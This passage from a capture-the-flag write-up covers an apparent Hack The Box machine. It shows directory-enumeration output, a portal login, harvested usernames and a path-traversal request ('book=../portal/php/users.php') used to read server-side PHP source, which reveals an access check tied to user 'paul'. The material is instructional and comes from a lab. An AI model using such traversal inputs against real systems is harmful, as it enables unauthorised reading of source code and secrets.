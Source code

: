 ```bash
/cgi-bin/ (Status: 403)
/css (Status: 301)
/db (Status: 301)
/DB (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/Index.php (Status: 200)
/index.php (Status: 200)
/js (Status: 301)
/php (Status: 301)
/PHP (Status: 301)
/portal (Status: 301)		--> interesting
/phpmyadmin (Status: 403)
/prn (Status: 403)
/prn.php (Status: 403)
/server-status (Status: 403)
/server-info (Status: 403)
/webalizer (Status: 403)
===============================================================
2021/03/01 10:10:24 Finished
===============================================================
```

So I moved to http://10.10.10.228/portal and found a login page
but we can't login using our creds

![portal login](/assets/images/breadcrumbs-images/portal-login.png)

Clicking on the helper link we get some username

```
Alex
Emma
Jack
John
Lucas
Olivia
Paul
William
```

I tried login using all but none worked So now I created an account and logged in.

After logging in I again started to see the source code of php files using the previous burp request.

for user management: `book=../portal/php/users.php&method=1`

Nothing good

Then again i checked source code for php/files.php which revealed that this page is only accessible by paul

```php
<?php
session_start();
$LOGGED_IN = false;
if ($_SESSION['username'] !== "paul") {
    header("Location: ../index.php");
}
if (isset($_SESSION['loggedIn'])) {
    $LOGGED_IN = true;
    require '../db/db.php';
} else {
    header("Location: ../auth/login.php");
    die();
}
```